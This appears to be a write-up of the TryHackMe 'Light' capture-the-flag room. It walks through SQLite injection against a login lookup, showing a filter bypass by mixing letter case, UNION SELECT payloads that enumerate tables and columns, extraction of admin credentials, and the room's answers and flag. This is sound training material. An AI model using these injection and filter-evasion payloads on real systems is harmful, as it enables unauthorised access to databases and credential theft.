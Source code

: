This walkthrough will guide you through solving the TryHackMe room called Light. The room focuses on exploiting SQL injection vulnerabilities and learning how to extract sensitive information from a database. Below, I provide the steps I took, insights gained, and the queries I used to solve the challenges in this room.

Firstly, I started with scanning the victim host with `nmap`, but this was not needed in this task. The open port 22 for SSH connections was meant to misdirect users during this exercise. Because of that I'm not going to post any screenshots of typical enumeration with `nmap` here. I tried brute forcing SSH but with no success. With this walkthrough I'm just gonna go straight for the database.

I started with user `smokey` As it was written in the task. In the output I received password for this user which was: `vYQ5ngPpw8AdUmL`.

![1. Smokey login](/images/TryHackMe/Light/1_smokey_login.png)


If this is an exercise on SQL injections, it means that the database will be vulnerable to such attacks. I started using some unusual characters that wouldn’t typically appear in user input for normal databases to observe the database's response. The first interesting observation I made was that when I used `'`, I received the following error: `Error: unrecognized token: "''' LIMIT 30"`

![2.Error](/images/TryHackMe/Light/2_error.png)

This output provided me with really helpful information and insight into how the command is created on the database side. The query seems to be something like this:

`SELECT password FROM table WHERE username='user_input' LIMIT 30`

Unfortunately, I didn’t check in the browser what this error could mean. If I had, it wouldn’t have taken me as long as it did. In this walkthrough, I’ll jump straight into the error and explain how it was useful for my later penetration testing.
Firstly, I assumed this was a MySQL database and attempted to gather information using MySQL commands. However, after searching for this error, I found the following article:
[Solving 'Unrecognized Token' Error While Using SQLite Insert Command](https://stackoverflow.com/questions/57017469/solving-unrecognized-token-error-while-using-sqlite-insert-command). 
This revealed that the database was not MySQL but SQLite, which will be useful later in the task.

I started creating various SQLi payloads and encountered an interesting output. When I used `--`, a common part of SQLi, I received the following output:

![3. Filter1](/images/TryHackMe/Light/3_filter1.png)

This indicated that these characters were restricted. I continued experimenting with different SQLi techniques. For reference, here is a helpful [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). At one point, I began using `UNION SELECT` payloads and observed another interesting behavior.

![4. Filter2](/images/TryHackMe/Light/4_filter2.png)


The filter was blocking `/*`, `--`, `%0b`, and `UNION SELECT` statements. However, it only flagged these operators when written entirely in lowercase or uppercase. If I used a mix of cases (e.g., `unioN selecT`), the filter allowed it.

![5. Filter3](/images/TryHackMe/Light/5_filter3.png)


I looked for SQLite-specific commands to identify the table names. This [helpful article](https://stackoverflow.com/questions/71160273/how-to-find-information-on-all-columns-in-a-sqlite-database) guided me to the following query:
```
SELECT name FROM sqlite_master WHERE type = 'table
```

Is a way to go. I just need to tailor it for my needs. Based on what I learned so far I create below query:

```
' unioN Select name FROM sqlite_master WHERE type='table
```

![6. Table name](/images/TryHackMe/Light/6_table_name.png)

This returned the table name: `admintable`.


Here if I would use ‘UNION SELECT’ or ‘union select’ or mix of those I would not get the desirable response from the server as the filter is filtering for input that I described previously that's why I used one capital letter in each word.

Okay,  right now I have the table name and now I need to figure out what are the names of the columns used in the table. I browsed the internet looking on how I can get this information in SQLITE. At some point I found another [helpful article](https://stackoverflow.com/questions/947215/how-to-get-a-list-of-column-names-on-sqlite3-database) which gave me an idea on my next payload. By using the below syntax I managed to discover columns’ names.

```
' unioN seleCt sql FROM sqlite_master WHERE tbl_name='admintable' AND type='table
```

![7. Table collums](/images/TryHackMe/Light/7_table_collums.png)


Based on this output I know there are three columns named respectively `id`, `username` and `password`. 

Then I focused on discovering how many rows are in this table by searching the Internet and  I came up with this idea.

```
' uNion Select COUNT(*) FROM 'admintable
```

![8.Table rows count](/images/TryHackMe/Light/8_table_rows_count.png)

Now I know that there are two records In the table. One method that could be used right now is to enumerate the whole database with the correct SQL query by checking the username with each letter of the alphabet. If there are only two rows that means that it wouldn't be that much work to do. I decided to blindly use below command to figure out at least one of the usernames in the database and by knowing one of them I can create a query to figure out the second one.

```
' unioN selecT username FROM admintable WHERE username LIKE '%
```

![9. Admin username](/images/TryHackMe/Light/9_admin_username.png)


If you don't understand this query and how ‘WHERE’ and ‘LIKE’ operators work then you need to read on your own - that's how we learn! Also, this is not a place where I am focusing on explaining exactly how SQL queries are created and how they work.

This is an answer to the first question.

```
What is the admin username?
TryHackMeAdmin
```

Now I need to create a query to discover TryHackMeAdmin user password. So far I know everything I need to know to do it.

```
' unioN selecT password FROM admintable WHERE username LIKE 'Try%
```

![10. Smokey login](/images/TryHackMe/Light/10_admin_password.png)


This is an answer to the second question.

```
What is the password to the username mentioned in question 1?
mamZtAuMlrsEy5bp6q17
```

If there are two records in the table and I know one of them I can just create a reverse query by asking for a username that is not a username of  TryHackMeAdmin. To do that I will use ‘NOT LIKE’ operator. 

```
' unioN Select username FROM admintable WHERE username NOT LIKE 'TryHackMeAdmin
```

![11. Flag username](/images/TryHackMe/Light/11_flag_username.png)

Now I know that the second username is `flag`. I will ask the database on what is this users’ password.

`' unioN selecT password FROM admintable WHERE username='flag`

![12. Flag password](/images/TryHackMe/Light/12_flag_password.png)

And this is the answer to the first question and the flag do its exercise

```
What is the flag?
THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```


